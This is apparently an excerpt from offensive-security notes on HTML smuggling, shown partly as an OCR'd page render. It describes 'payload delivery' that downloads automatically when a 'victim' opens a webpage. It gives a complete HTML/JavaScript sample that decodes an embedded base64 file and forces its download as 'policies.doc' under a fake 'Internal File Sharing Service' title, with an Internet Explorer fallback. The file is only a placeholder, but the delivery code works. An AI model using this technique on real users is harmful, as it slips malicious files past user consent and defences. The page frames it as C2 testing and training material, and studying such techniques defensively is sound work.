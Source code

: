     ```
    
    ### 🔹 **Effect:**
    
    - **No user interaction needed** to click download explicitly.
    - Downloads **automatically when the victim opens the webpage**.
    - Uses JavaScript + Blob + `window.URL.createObjectURL`.
  **Minimalistic payload delivery with no user interaction—ideal for C2 testing and training scenarios.**
#### My samples
1. Sample 1: Basic Download with Legacy Support
   
    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
      <meta charset="UTF-8">
      <title>Internal File Sharing Service</title>
    </head>
    <body>
      <h1>Your download will start in a few seconds...</h1>
    
      <script>
        function base64ToArrayBuffer(base64) {
          const binary_string = window.atob(base64);
          const len = binary_string.length;
          const bytes = new Uint8Array(len);
          for (let i = 0; i < len; i++) {
            bytes[i] = binary_string.charCodeAt(i);
          }
          return bytes.buffer;
        }
    
        // Replace this with actual base64 string (without angle brackets or comments)
        const base64File = '<< BASE64 ENCODING OF FILE >>';
        const fileName = 'policies.doc';
    
        if (base64File.startsWith('<<')) {
          console.error('Base64 data is missing.');
        } else {
          const data = base64ToArrayBuffer(base64File);
          const blob = new Blob([data], { type: 'application/octet-stream' });
    
          if (window.navigator.msSaveOrOpenBlob) {
            // For IE/Edge
            window.navigator.msSaveOrOpenBlob(blob, fileName);
          } else {
            // For modern browsers
            const a = document.createElement('a');
            const url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            document.body.appendChild(a);
            a.click();
            document.body.removeChild(a);
            window.URL.revokeObjectURL(url);
          }
        }
      </script>
    </body>
    </html>  
    ```
      + Added cross-browser support, including fallback for Internet Explorer / Edge via msSaveOrOpenBlob.
      